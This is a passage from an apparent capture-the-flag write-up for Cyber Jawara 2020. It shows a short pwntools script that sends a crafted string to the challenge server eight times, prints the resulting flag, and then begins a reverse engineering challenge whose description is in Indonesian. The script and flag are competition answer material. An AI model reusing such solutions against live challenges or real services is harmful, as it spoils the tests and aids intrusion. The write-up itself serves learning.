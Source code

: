     exploit(r)
    sys.exit(0)


{% endhighlight %}

after we found the right input `'}` we can input that string 8 times to get the flag

{% highlight python %}
from pwn import *
r = remote("pwn.cyber.jawara.systems", 13373)
for i in range(8):
    r.sendlineafter("):","'}")
    log.info("sent")
r.interactive()

{% endhighlight %}

<img src="/images/cj2020/ranjau.png" />

FLAG: CJ2020{hacker_beneran_nge-cheat_pakai_exploit_sendiri}

# BabyBaby | Reverse Engineering

### Description

Binary ini dapat digunakan untuk permulaan belajar reverse engineering.

Tips: Soal ini lebih mudah dikerjakan dengan static analysis seperti menggunakan Ghidra (gratis) atau IDA Pro (berbayar) dengan meng-generate kode C-like dari kode mesin yang ada di dalam binary.

### Solution

we were given a binary, here is the pseudocode of that binary 
